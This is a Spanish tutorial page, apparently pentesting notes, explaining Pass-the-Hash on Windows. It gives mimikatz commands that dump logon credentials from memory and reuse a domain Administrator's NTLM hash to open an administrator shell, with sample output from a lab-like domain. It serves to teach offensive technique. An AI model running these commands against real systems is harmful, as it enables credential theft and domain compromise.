 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pass-The-Hash con Windows

Esta tecnica consiste en el protocolo de autenticacion `NTLM` con sus dichos `hashes` este protocolo de autenticacion es menos seguro que el de `kerberos`, pero cuando nosotros nos conectamos de forma remota o nos conectamos mediante una `IP` y no mediante un dominio en muchos casos pasara autenticarse mediante el protocolo `NTLM` pero si lo hacemos atraves de un dominio, podremos hacerlo mediante `kerberos`, por lo que con `NTLM` al ser menos seguro podremos realizar este tipo de tecnicas que vamos a ver ahora.

A dia de hoy se sigue utilizando a nivel local, pero podremos especificar a `Windows` que no queremos este tipo de autenticacion de una forma, pero no es muy recomendable, ya que muchas maneras de autenticacion pueden deshabilitarse y dar problemas.

Si nosotros hemos obtenido las credenciales del `Administrador` del dominio por ejemplo mediante las `logon sessions` utilizando `mimikatz` como hemos visto anteriormente:

```powershell
sekurlsa::logonpasswords
```

Info:

```
Authentication Id : 0 ; 7531224 (00000000:0072ead8)
Session           : Interactive from 0
User Name         : Administrator
Domain            : CORP
Logon Server      : DC01
Logon Time        : 20/01/2025 10:23:12
SID               : S-1-5-21-3352250647-938130414-2449934813-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : a87f3a337d73085c45f9416be5787d86
         * SHA1     : 34957e9ba3455a4a99d722b48693ac1123ba5dba
         * DPAPI    : b937fc9669fa922df0050d0d2f6d5de4
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : CORP.LOCAL
         * Password : (null)
        ssp :
        credman :
        cloudap :
```

Hemos intentado `crackear` el `hash` `NTLM` pero pongamos que no hemos obtenido exito.

Pero lo que si podemos hacer es realizar un `Pass-The-Hash` con `mimikatz` utilizando el `hash` del `Administrador` de la siguiente forma:

```powershell
sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:a87f3a337d73085c45f9416be5787d86
```

Lo que va hacer `mimikatz` es crear una nueva `logon session` dentro de esta maquina (Ya que somos `administradores` locales de esta maquina) va a sobreescribir el `hash` que haya asociada a ella en memoria por este `hash` del usuario `administrador`, despues va a copiar el `Token de acceso` que tenemos asociado a este proceso y se lo va añadir tambien a esta `logon session`, y una vez echo eso va a ejecutar una `cmd` como dicho usuario.

Info:

```
user    : Administrator
domain  : corp.local
program : cmd.exe
impers. : no
NTLM    : a87f3a337d73085c45f9416be5787d86
  |  PID  3448
  |  TID  3228
  |  LSA Process is now R/W
  |  LUID 0 ; 7674536 (00000000:00751aa8)
  \_ msv1_0   - data copy @ 00000224E7C04E80 : OK !
  \_ kerberos - data copy @ 00000224E7D777C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 00000224E7679D38 (32) -> null
```

Y veremos algo asi:

<figure><img src="../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Y con esto ya tendremos un `cmd` como el usuario `Administrador` del dominio.
